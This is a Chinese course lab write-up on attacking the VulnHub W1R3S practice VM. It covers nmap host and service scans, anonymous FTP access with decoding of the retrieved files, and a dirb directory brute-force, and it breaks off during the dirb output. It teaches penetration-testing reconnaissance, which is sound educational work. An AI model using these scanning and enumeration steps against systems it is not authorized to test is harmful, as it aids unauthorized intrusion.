










# 网络攻防实战 Lab06.5 Writeup

!!! quote "使用的靶机为 VulnHub W1R3S"

!!! success "课堂小练 (?) 不是作业"

## 渗透目的

取得目标靶机的 root 权限

回顾课程内容

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机与靶机，网络采用 NAT 连接

`ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 08:43 CST
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00046s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00036s latency).
MAC Address: 08:00:27:5C:C8:D7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.13)
Host is up (0.0025s latency).
MAC Address: 08:00:27:7B:0C:7B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.10 seconds
```

考虑靶机 ip 为 `10.0.2.13`，继续扫描端口 `nmap -sV -sC 10.0.2.13`，看看有哪些服务项

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 08:43 CST
Nmap scan report for bogon (10.0.2.13)
Host is up (0.0013s latency).
Not shown: 966 filtered tcp ports (no-response), 30 closed tcp ports (reset)

// FTP 服务
PORTSTATE SERVICE VERSION
21/tcp    open    ftpvsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
| Connected to ::ffff:10.0.2.3
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp ftp4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp ftp4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp ftp4096 Jan 28  2018 new-employees

// SSH 服务
PORTSTATE SERVICE VERSION
22/tcp    open    sshOpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)

// HTTP 服务
PORTSTATE SERVICE VERSION
80/tcp    open    http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

// SQL 服务
PORTSTATE SERVICE VERSION
3306/tcp  open    mysql   MySQL (unauthorized)
MAC Address: 08:00:27:7B:0C:7B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.44 seconds
```

同时确定靶机操作系统为 `Ubuntu`

---

### FTP 渗透测试

注意到

```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

发现 FTP 可以匿名访问，进行一顿操作



下载了一堆东西，

```title="01.txt"
New FTP Server For W1R3S.inc
```

没有价值

```title="02.txt"
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
```

`01ec2d8fc11c493b25029fb1f47f39ce` 是 md5 加密，查库解密为：`This is not a password` 

`SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==` 是 Base64 加密，解密为 `It is easy, but not that easy..`

没有价值

```title="03.txt"
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 

```

ASCII 艺术字，没有价值

```title="worktodo.txt"
	ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```

？翻转正常后为：

```
	I don't think this is the way to root!

we have a lot of work to do, stop playing around....
```

没有价值😡

```title="employee-names.txt"
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```

说不定有价值

然后 FTP 就没有更多内容了，sad

### HTTP 渗透测试



发现是默认页面

#### 地址爆破

用 dirb 搜一下，使用 `big.txt`

??? quote "太长了，折叠一下"

    ```
    ---- Scanning URL: http://10.0.2.13:80/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/   
    ==> DIRECTORY: http://10.0.2.13:80/javascript/  
    + http://10.0.2.13:80/server-status (CODE:403|SIZE:297)  
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/   
    
    ---- Entering directory: http://10.0.2.13:80/administrator/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/alerts/ 
    ==> DIRECTORY: http://10.0.2.13:80/administrator/api/    
    ==> DIRECTORY: http://10.0.2.13:80/administrator/classes/
    ==> DIRECTORY: http://10.0.2.13:80/administrator/components/  
    ==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/  
    ==> DIRECTORY: http://10.0.2.13:80/administrator/installation/
    ==> DIRECTORY: http://10.0.2.13:80/administrator/js/
    ==> DIRECTORY: http://10.0.2.13:80/administrator/language/    
    ==> DIRECTORY: http://10.0.2.13:80/administrator/media/  
    + http://10.0.2.13:80/administrator/robots.txt (CODE:200|SIZE:26)  
    ==> DIRECTORY: http://10.0.2.13:80/administrator/templates/   
    
    ---- Entering directory: http://10.0.2.13:80/javascript/ ----
    ==> DIRECTORY: http://10.0.2.13:80/javascript/jquery/    
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/ ----
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/   
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/ 
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-includes/
    
    ---- Entering directory: http://10.0.2.13:80/administrator/alerts/ ----
    
    ---- Entering directory: http://10.0.2.13:80/administrator/api/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/api/administrator/
    ==> DIRECTORY: http://10.0.2.13:80/administrator/api/test/    
    
    ---- Entering directory: http://10.0.2.13:80/administrator/classes/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/classes/ajax/
    
    ---- Entering directory: http://10.0.2.13:80/administrator/components/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/components/configuration/   
    ==> DIRECTORY: http://10.0.2.13:80/administrator/components/menu/  
    ==> DIRECTORY: http://10.0.2.13:80/administrator/components/permissions/
    ==> DIRECTORY: http://10.0.2.13:80/administrator/components/stats/ 
    
    ---- Entering directory: http://10.0.2.13:80/administrator/extensions/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/banners/    
    ==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/content/    
    
    ---- Entering directory: http://10.0.2.13:80/administrator/installation/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/installation/html/
    
    ---- Entering directory: http://10.0.2.13:80/administrator/js/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/js/filemanager/   
    ==> DIRECTORY: http://10.0.2.13:80/administrator/js/jquery/   
    ==> DIRECTORY: http://10.0.2.13:80/administrator/js/tiny_mce/ 
    
    ---- Entering directory: http://10.0.2.13:80/administrator/language/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/media/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/templates/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/
    
    ---- Entering directory: http://10.0.2.13:80/javascript/jquery/ ----
    + http://10.0.2.13:80/javascript/jquery/jquery (CODE:200|SIZE:284394)   
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/ ----
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/css/    
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/images/ 
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/includes/    
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/js/
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/maint/  
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/network/
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/user/   
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/ ----
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/   
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/themes/    
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/upgrade/   
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/uploads/   
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-includes/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/api/administrator/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/api/test/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/classes/ajax/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/components/configuration/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/components/menu/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/components/permissions/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/components/stats/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/extensions/banners/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/extensions/content/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/installation/html/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/js/filemanager/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/js/jquery/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/js/tiny_mce/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/templates/default/ ----
    ==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/classes/  
    ==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/css/ 
    ==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/html/
    ==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/images/   
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/css/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/images/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/includes/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/js/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/maint/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/network/ ----
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/user/ ----
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/ ----
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/themes/ ----
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/upgrade/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/uploads/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/templates/default/classes/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/templates/default/css/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/templates/default/html/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
